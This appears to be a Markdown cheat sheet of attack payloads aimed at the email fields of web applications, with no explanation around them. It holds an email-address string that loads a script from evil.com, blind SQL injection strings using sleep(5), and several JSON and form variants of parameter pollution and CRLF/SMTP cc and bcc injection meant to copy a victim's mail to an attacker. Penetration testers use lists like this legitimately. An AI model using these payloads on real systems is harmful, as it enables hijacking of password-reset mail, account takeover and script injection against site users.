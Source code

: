 
## Blind SQLi 
```
"'--><script/src=//evil.com></script>"@example.com
"'-sleep(5)-'"@mail.local
```

## Comma saperator with HPP chain

```
{"email":"Victim@gmail.com,Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com,Attacker@gmail.com"}
```

## Semicolon saperator with HPP chain
```
{"email":"Victim@gmail.com;Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com;Attacker@gmail.com"}
```

## Space saperator with HPP chain
```
{"email":"Victim@gmail.com%20Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com%20Attacker@gmail.com"}
```

## Carbon Copy (CC:) with HPP chain
```
{"email":"Victim@mail.com%0Acc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Acc:Attacker@mail.com"}
```

## Blind Carbon Copy (BCC:) with HPP chain
```
{"email": "Victim@mail.com%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Abcc:Attacker@mail.com"}
```

## Parameter Pollution
```
email=victim@gmail.com&email=attacker@gmail.com
```

## CRLF and SMTP Inejciton
```
email=victim@gmail.com%0a%0dcc:attacker@gmail.com
{"email":["victim@gmail.com","attacker@gmail.com"]}
```

## Using Seperators
```
email=victim@gmail.com,attacker@gmail.com
email=victim@gmail.com|attacker@gmail.com
email=victim@gmail.com%20attacker@gmail.com
```
